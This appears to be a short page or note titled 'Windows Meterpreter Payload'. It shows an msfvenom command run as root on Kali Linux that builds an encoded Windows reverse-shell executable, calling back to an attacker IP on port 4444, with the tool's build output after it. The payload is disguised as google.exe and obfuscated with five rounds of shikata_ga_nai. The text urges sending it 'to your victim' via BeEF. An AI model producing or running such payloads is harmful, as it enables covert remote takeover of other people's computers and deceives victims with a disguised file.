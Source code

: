 <pre>
<h1> Windows Meterpreter Payload</h1>
>> Send this payload to your victim using beef for better result.
>> -e for encoder
>> -i for iteration
  
<b style="color: red;">
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 lhost=192.168.0.109 lport=4444 -f exe > google.exe </b> <i>
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai chosen with final size 489
Payload size: 489 bytes
Final size of exe file: 73802 bytes
</i>



















</pre>
